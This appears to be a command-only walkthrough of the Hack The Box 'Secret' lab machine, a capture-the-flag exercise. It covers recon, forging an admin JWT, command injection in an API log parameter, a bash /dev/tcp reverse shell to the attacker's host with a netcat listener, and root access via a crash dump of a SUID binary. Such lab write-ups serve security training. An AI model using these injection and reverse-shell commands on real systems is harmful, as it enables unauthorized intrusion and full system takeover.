 # HTB: Secret — Command Walkthrough

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)


---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.120
nmap -p 22,80,3000 -sCV -oA scans/nmap-tcpscripts 10.10.11.120
```
```bash
curl http://10.10.11.120
curl http://10.10.11.120/download/files.zip
```

## 🕵️ JWT Registration & Login
```bash
curl -d '{"name":"0xdf0xdf","email":"dfdfdfdf@secret.com","password":"password"}' -X POST http://10.10.11.120/api/user/register -H 'Content-Type: Application/json'
```
```bash
curl -d '{"email":"dfdfdfdf@secret.com","password":"password"}' -X POST http://10.10.11.120/api/user/login -H 'Content-Type: Application/json'
```

## 📁 [Directory Discovery](HTTP)
```bash
feroxbuster -u http://10.10.11.120
```

## 🔐 JWT Analysis
```python
import jwt
token = '...'
secret = '...'
jwt.decode(token, secret)
```

## 🧪 JWT Forging
```python
j = jwt.decode(token, secret)
j['name'] = 'theadmin'
jwt.encode(j, secret)
```

## 🚨 Command Injection Test
```bash
curl -s 'http://10.10.11.120/api/logs?file=;id' -H "auth-token: <ADMIN_JWT_TOKEN>" | jq -r .
```

## ⚙️ Gaining Reverse Shell
```bash
curl -s -G 'http://10.10.11.120/api/logs' \
--data-urlencode "file=>/dev/null;bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'" \
-H "auth-token: <ADMIN_JWT_TOKEN>" | jq -r .
```
```bash
nc -lnvp 443
```

## 🔼 Shell Upgrade
```bash
script /dev/null -c bash
[CTRL+Z]
stty raw -echo; fg
reset
screen
```

## 📄 Privilege Escalation via SUID FD Leak
```bash
./count
[CTRL+Z]
ls -l /proc/$(pidof count)/fd
```

## 💥 Exploiting Crash Dump
```bash
./count
[CTRL+Z]
kill -SIGSEGV $(pidof count)
apport-unpack _opt_count.1000.crash /tmp/0xdf
strings -n 30 /tmp/0xdf/CoreDump | less
```

## 🔑 [SSH](SSH) as Root
```bash
ssh -i root_id_rsa root@10.10.11.120
```